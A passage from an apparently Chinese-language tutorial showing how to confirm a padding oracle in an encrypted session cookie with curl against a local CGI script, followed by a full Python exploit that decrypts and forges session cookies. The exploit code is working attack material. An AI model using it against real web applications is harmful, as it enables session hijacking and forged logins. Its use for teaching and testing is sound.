 该示例表明，返回了一个新的、名为“session”的加密cookie，并且响应正文中包含文本“not logged in”。

使用刚才返回的cookie再次调用上面的脚本，可以看到会话中的用户名为“guest”： 



```
$ curl -b session=sxGTJsP1TqiPrbKVM1GAXHla5xSbA/u4zH/4Hztmf0CFsp1vp
LQl1DGPGMMyujJL/znsBkkf0f8cXLgNDgsGE9O7pbWnbaJS8JEKXZMYBRU= 
http://127.0.0.1:8080/cgi-bin/status.rb
your username is guest
```

现在修改这个cookie，让它以“u =”结尾，而非"U ="，然后发送修改后的cookie，由于尾部的填充物会导致该cookie失效，所以该会话就无法正确解密，也就无法传递给该CGI脚本了，所以，将再次返回文本“not logged in”： 



```
$ curl -b session=sxGTJsP1TqiPrbKVM1GAXHla5xSbA/u4zH/4Hztmf0CFsp1vp
LQl1DGPGMMyujJL/znsBkkf0f8cXLgNDgsGE9O7pbWnbaJS8JEKXZMYBRu= 
http://127.0.0.1:8080/cgi-bin/status.rb
not logged in
```

这证明确实存在Padding Oracle漏洞。这样的话，我们就可以在Python库[1] python-paddingoracle的帮助下，通过利用这个Padding Oracle漏洞来解密会话。

exploit.py



```
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b64encode, b64decode
import requests
class PadBuster(PaddingOracle):
    def __init__(self, valid_cookie, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.wait = kwargs.get('wait', 2.0)
        self.valid_cookie = valid_cookie
    def oracle(self, data, **kwargs):
        v = b64encode(self.valid_cookie+data)
        response = requests.get('http://127.0.0.1:8080/cgi-bin/status.rb&amp;apos;,
                cookies=dict(session=v), stream=False, timeout=5, verify=False)
        if 'username' in response.content:
            logging.debug('No padding exception raised on %r', v)
            return
        raise BadPaddingException
if __name__ == '__main__':
    import logging
    import sys
    if not sys.argv[2:]:
        print 'Usage: [encrypt|decrypt] &lt;session value&gt; &lt;plaintext&gt;'
        sys.exit(1)
    logging.basicConfig(level=logging.WARN)
    mode = sys.argv[1]
    session = b64decode(sys.argv[2])
    padbuster = PadBuster(session)
    if mode == "decrypt":
        cookie = padbuster.decrypt(session[32:], block_size=16, iv=session[16:32])
        print('Decrypted session:n%r' % cookie)
    elif mode == "encrypt":
        key = session[0:16]
        plaintext = sys.argv[3]
        s = padbuster.encrypt(plaintext, block_size=16)
        data = b64encode(key+s[0:len(s)-16])
        print('Encrypted session:n%s' % data)
    else:
        print "invalid mode"
        sys.exit(1)
```